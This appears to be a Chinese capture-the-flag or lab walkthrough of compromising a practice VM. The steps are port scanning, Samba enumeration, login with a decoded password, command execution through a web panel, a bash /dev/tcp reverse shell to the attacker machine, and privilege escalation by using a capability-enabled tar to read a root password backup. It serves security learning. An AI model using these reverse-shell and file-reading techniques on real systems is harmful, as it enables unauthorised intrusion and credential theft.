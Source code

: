 
# 0X00 环境
**攻击机：**192.168.1.37<br />**目标机：**192.168.1.10


# 0X01 信息收集
使用[NMAP](https://www.yuque.com/xmtxsec/network_security/xm1y1f)进行端口扫描
```
nmap -sV -A 192.168.1.10 -p-
```
![image.png](./assets/1671763067854-9fc4c275-e35c-44f8-b67c-a92f7106f3b5.png)
通过扫描结果可以发现开放了五个端口分别是：80、139、445、10000、20000

80端口的页面就是一个Apache2 Debian的默认页面没啥信息，但是在源码有一串疑似加密的字符
![image.png](./assets/1671763439409-ca1afe71-cc32-4fd0-9b0b-618adf8f8da7.png)

百度[解密](http://tool.bugku.com/brainfuck/?wafcloud=1)的到`.2uqPEfj3D<P'a-3`
![image.png](./assets/1671763595229-c1f59582-7873-43a6-a291-d8c36d10a30f.png)

10000端口和20000端口都是登录页面上面得到的字符串可能是密码
![image.png](./assets/1671763724842-93d6fc0a-1d33-4e4d-8dfb-13bff4b9a6cd.png)

在前面端口扫描中扫描出139和445端口是Samba服务，尝试用[enum4linux](https://www.yuque.com/xmtxsec/network_security/dld4wott34mzhboe)探测一下目标的Samba信息，成功得到账号`cyber`
```
enum4linux -a 192.168.1.10
```
![image.png](./assets/1671765326782-dbf8c1b2-5bcc-4bc8-8f2c-13536e259881.png)

尝试将上面扫描出来的账号`cyber`和密码`.2uqPEfj3D<P'a-3`进行登录<br />在10000端口登录失败，在20000端口登录成功
![image.png](./assets/1671765508763-48e25ac5-cba2-4a4a-b461-d31080a1334f.png)


# 0X02 漏洞发现
登陆后在页面探索发现在目录下面可以开启命令框可以执行命令
![image.png](./assets/1671765641423-53487e36-3e66-4cd8-8251-5513264829e9.png)
![image.png](./assets/1671765679927-4b39f542-cd45-4067-9bc3-71f4864e7cff.png)


# 0X03 漏洞利用
尝试反弹shell<br />攻击机开启监听
```
nc -lvp 6666
```

在靶机命令框执行以下命令
```
bash -i >& /dev/tcp/192.168.1.37/6666 0>&1
```
成功反弹shell
![image.png](./assets/1671765968810-95c0beeb-8324-48e1-a77b-9b4521f60ac4.png)


# 0X04 提权 
查看当前用户所具有的权限
```
sudo -l
```
![image.png](./assets/1671766112935-16226dcf-96c5-4dba-ba96-a88eba422d48.png)

 查找具有特殊权限SUID的文件，没什么可以利用的
```
find / -perm -u=s -type f 2>/dev/null
```
![image.png](./assets/1671766310348-6976511e-41b5-4e38-b325-c1dbdf8e3d44.png)

在前面查看flag的时候目录下有一个tar文件，查看一下他的权限
```
ls -l tar
getcap tar
```
![image.png](./assets/1671766796800-482d494f-20f8-449f-8573-6526c9f620ce.png)
这里可以看到tar具有root权限并且可以[读取任意文件](https://blog.csdn.net/megan_free/article/details/100357702)

经过查找发现在var/backups下的一个备份文件.old_pass.bak
![image.png](./assets/1671767044584-28540eb8-d813-4e48-ac64-b7303d0173dc.png)

可以看到这个文件并没有执行权限，但是tar文件有执行权限，所以我们可以**把这个文件用tar压缩后再用系统的tar文件解压**，这样就没有权限问题
```
./tar -cvf passwd.tar /var/backups/.old_pass.bak 
tar -xvf passwd.tar
```
 ![image.png](./assets/1671769120932-77eca096-ccf5-404f-a9e3-14441e7d665b.png)
得到密码`Ts&4&YurgtRX(=~h`

尝试登录root用户，成功得到flag
![image.png](./assets/1671769446078-7cff4916-5eb8-4a73-91ed-936203ee88d4.png)






